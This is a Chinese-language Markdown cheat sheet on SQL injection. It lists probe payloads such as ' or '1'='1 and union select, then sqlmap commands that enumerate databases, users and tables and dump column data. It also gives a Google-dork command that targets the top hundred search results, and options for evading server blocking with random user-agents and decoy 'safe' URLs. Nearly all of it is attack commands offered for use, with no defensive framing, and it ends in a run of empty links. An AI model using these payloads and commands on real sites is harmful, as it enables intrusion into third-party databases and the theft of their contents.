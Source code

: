 # SQL 注入

## 探测到底是不是通过拼接字符串方式使用 SQL

- 常用字符：

```
'
"
' and 1=1
' and 1=2
1 or 1=1
1' or '1'='1
1" or "1"="1
1' order by 1--
union select 1,2--
@@version
@@datadir
user()
database()
information_schema.tables

```


## sqlmap 分析数据库和表名、dump 表数据

#### sqlmap 介绍

- 目前做 SQL 注入的工具一般大家都是选择：[sqlmap](http://sqlmap.org/)
	- 目前（2018年08月）只支持：2.6.x 和 2.7.x
- 支持的 5 种注入类型：
	- 基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
	- 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
	- 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
	- 联合查询注入，可以使用union的情况下的注入。
	- 堆查询注入，可以同时执行多条语句的执行时的注入。


#### sqlmap 使用

- sqlmap 的输出信息按从简到繁共分为7个级别，依次为 0 ~ 6，级别越高，检测越全面。分别代表：
	- 使用参数 `-v <级别>` 来指定某个等级，默认输出级别为 1

```
0：只显示 Python 的 tracebacks 信息、错误信息 [ERROR] 和关键信息 [CRITICAL]；
1：同时显示普通信息 [INFO] 和警告信息[WARNING]；
2：同时显示调试信息[DEBUG]；
3：同时显示注入使用的攻击荷载；
4：同时显示 HTTP 请求；
5：同时显示 HTTP 响应头；
6：同时显示 HTTP 响应体。
```

- 将 Google 搜索前一百个结果作为攻击目标：`sqlmap -g "inurl:\".asp?id=1\""`
- 检查注入点（GET）：`sqlmap -u 目标网址`
- 检查注入点（POST 数据，多个数据用分号隔开）：`sqlmap -u 目标网址 --data="id=0;name=werner" --param-del=";"`
- 检查注入点（Cookie，等级必须是 2 以上）：`sqlmap -u 目标网址 --cookie –level 2 "JSESSIONID=123456;NAME=youmeek;" --cookie-del=";"`
- 获取所有数据库信息：`sqlmap -u 目标网址 --dbs`
- 获取所有数据库用户：`sqlmap -u 目标网址 --users`
- 获取当前数据库信息：`sqlmap -u 目标网址 --current-db`
- 获取当前用户：`sqlmap -u 目标网址 --current-user`
- 获取当前数据库和当前用户：`sqlmap -u 目标网址 --current-db --current-user`
- 获取有几张表：`sqlmap -u 目标网址 --tables`
- 获取指定表的字段有哪些：`sqlmap -u 目标网址 -T 表名 --columns`
- 获取指定表字段值：`sqlmap -u 目标网址 -T 表名 -C 字段名1,字段名2,字段名3 --dump`
- 获取指定表字段所有值：`sqlmap -u 目标网址 -T 表名 -C 字段名1,字段名2,字段名3 --dump-all`
- 让 HTTP 请求之间添加延迟，添加参数：`--delay 3`，单位是秒
- 设置超时时间，默认是 30 秒，添加参数：`--timeout 50`，单位是秒
- 设置超时后最大重试次数，默认是 3 次，添加参数：`--retries 5`
- 避免错误请求过多而被屏蔽：

```
有时服务器检测到某个客户端错误请求过多会对其进行屏蔽，而 sqlmap 的测试往往会产生大量错误请求，为避免被屏蔽，可以时不时的产生几个正常请求以迷惑服务器。有以下四个参数与这一机制有关：

--safe-url: 隔一会就访问一下的安全 URL
--safe-post: 访问安全 URL 时携带的 POST 数据
--safe-req: 从文件中载入安全 HTTP 请求
--safe-freq: 每次测试请求之后都会访问一下的安全 URL

这里所谓的安全 URL 是指访问会返回 200、没有任何报错的 URL。相应地，Sqlmap 也不会对安全 URL 进行任何注入测试。
```

- 其他常用参数：
	- 构造随机 user-agent：`–random-agent` 
	- 指定 HTTP Referer头：`–referer=设定值`
	- 换行分开，加入其他的HTTP头：`–headers=设定值`
	- 忽略响应的 Set–Cookie 头信息：`–drop-set-cookie` 

## 分析登录后台入口

- nikto

## 资料

- <http://www.cnblogs.com/hongfei/p/3872156.html>
- <https://www.tr0y.wang/2018/03/21/SQLmap/index.html>
- <>
- <>
- <>
- <>
- <>
- <>
- <>
- <>